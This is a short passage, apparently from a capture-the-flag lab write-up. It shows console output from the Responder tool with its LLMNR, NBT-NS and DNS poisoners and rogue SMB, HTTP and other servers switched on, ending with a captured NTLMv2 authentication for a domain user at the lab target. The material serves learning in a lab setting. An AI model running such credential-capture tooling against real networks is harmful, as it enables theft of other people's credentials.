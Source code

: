 ```shell
    Author: Laurent Gaffie (laurent.gaffie@gmail.com)
    To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [ON]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.22]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-WCHKE328QTF]
    Responder Domain Name      [DAVC.LOCAL]
    Responder DCE-RPC Port     [47660]
[i] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[Analyze mode: ICMP] You can ICMP Redirect on this network.
[Analyze mode: ICMP] This workstation (10.10.14.22) is not on the same subnet than the DNS server (192.168.135.2).
[Analyze mode: ICMP] Use `python tools/Icmp-Redirect.py` for more details.

[+] Listening for events...

[HTTP] NTLMv2 Client   : 10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
```